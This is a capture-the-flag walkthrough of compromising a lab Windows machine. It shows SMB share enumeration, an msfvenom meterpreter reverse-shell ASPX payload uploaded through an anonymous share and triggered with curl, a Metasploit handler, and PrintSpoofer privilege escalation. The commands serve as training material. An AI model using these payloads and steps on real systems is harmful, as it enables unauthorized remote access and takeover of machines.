 ## Enumeration
First we run an nmap scan on the ip given which reveals 2 web servers and smb servers.

Looking at the http website for this there is nothing significant there.
So we can enumerate the smb shares on this server.

`nmap --script=smb-enum-* HOST-IP -oN smb_enum.nmap`

## Recon
We find a peculiar share named `/nt4wrksv` on it.

Logging into it using smbclient: `smbclient //HOST-IP/nt4wrksv` and pasword is blank.

We see a passwords file with base64 encoded passwords in it. I thought this could be useful but it wasn't.

Bit of the dead end here.
So I did a gobuster search on the web server running on port `49663`. We find a directory there called `nt4wrksv`. 
We can access the passwords.txt file on this web server meaning if we upload a reverse shell to this share and trigger it using the web server we can work with something.

## Exploitation
So I made a payload using msfvenom to upload into the share using smbclient.

To get the info on arch google the service info form the nmap scan.

`msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 LHOST=tun0 LPORT=4444 -f aspx -o rev.aspx`

We upload this to nt4wrksv share using the `put` command.
Now we set up a handler on metasploit.

`use exploit/multi/handler  
 set payload windows/x64/meterpreter/reverse_tcp  
 set lhost tun0  
 set lport 4444  
 run  
`

Now that we have this setup we can trigger the rev.aspx either by a curl command or by manually going there in a web browser.

`curl http://HOST-IP:49663/nt4wksv/rev.aspx`

The reason I used a meterpreter shell rather than a normal reverse shell is because I can execute all linux commands on meterpreter and it works on windows server.

We get a meterpreter shell now. We can navigate over to `C:/Users/Bob/` where we have our user.txt file.

## Privilege Escalation
if we see the `whoami /priv` , it will list all privileges accessible for the user Bob.

We can see here that `SeImpersonatePrevilige` is enabled. Hence, we can a use a tool called [printspoofer](https://github.com/dievus/printspoofer) to get root access.

We download this onto our machine and upload through the `upload` command in meterpreter and run this: `PrintSpoofer.exe -i -c cmd`

Now we have root access. We can go to the directory `c:/users/administartor/desktop` and print out the root flag.
